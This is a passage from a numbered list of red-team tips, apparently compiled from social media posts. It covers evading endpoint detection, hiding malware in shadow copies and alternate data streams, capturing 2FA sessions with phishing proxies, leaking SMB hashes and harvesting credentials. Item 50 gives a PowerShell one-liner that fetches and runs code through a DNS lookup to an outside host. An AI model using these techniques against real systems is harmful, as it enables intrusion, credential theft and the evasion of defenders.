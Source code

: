 * 38: Having trouble getting @armitagehacker CobaltStrikes evil.hta through defenses? https://github.com/vysec/MorphHTA

* 39: If emails get bounced, read the email! Sometimes due to malware scanners, spam etc. Or you may even get an out of office reply.

* 40: @0x09AL suggests looking for default credentials on printers and embedded devices. Move off initial foothold using this.

* 41: @Oddvarmoe suggests using Alternate Data Streams if you need to put a file on disk. For example https://github.com/samratashok/nishang/blob/master/Backdoors/Invoke-ADSBackdoor.ps1

* 42: Got OS level access to a middle tier? Task list, netstat and wmic process list full | findstr /I commandline for more ideas!

* 43: So you know where the server application files are. Download the binaries and check out configuration files for conn. strings

* 44: Run PEiD and other packer / technology checkers to find out the language and packer used on downloaded server binaries.

* 45: Run strings on the application binary for potentially other cleartext sensitive strings! (Unicode mode too)

* 46: On a VDI? Check out C:\ and other disks for potentially sensitive files other users may have saved there.

* 47: Incase EDR are looking for "net users /domain" try using "net use /dom"

* 48: Is EDR potentially looking for "powershell -encodedcommand"? Try "powershell -ec"

* 49: Attacking a heavy Macintosh or Linux estate? Send a Office Maldoc with OS checking logic to obtain footholds on either system

* 50: Carbon Black checks for IEX and web req commands. Use powershell "powershell . (nslookup -q=txt calc.vincentyiu.co.uk )[-1]"

* 51: Cant open C drive? Try \\127.0.0.1\c$

* 52: SC doesnt take credentials. Cant use runas? Try net use \\targetip\ipc$ password /u:domain\username then sc to psexec

* 53: When stick phishing for 2FA, consider using @mrgretzky Evilginx project which logs cookies. https://breakdev.org/evilginx-1-1-release/

* 54: Hide from blue. Volume shadow copy then execute \\?\GLOBALROOT\Device\HarddiskVolumeShadowColy1\malware.exe/dll then delete VSC

* 55: SMB hash leaking using a UNC path for image in page for drive by leak can give you credentials for less mature environments.

* 56: Target victims using email authentication such as Microsoft Account on Windows 10? Hash leak exposes full email address!

* 57: Working in teams yields better results; and best of all Makes Offensive operations more fun and keeps the adrenaline pumping

* 58: Discuss business targets and objectives with your clients. This process should set non technical goals such as "ATM spit money"

* 59: Checking whether a server or host is good for egress? Likely to go down? "systeminfo | findstr /i boot"
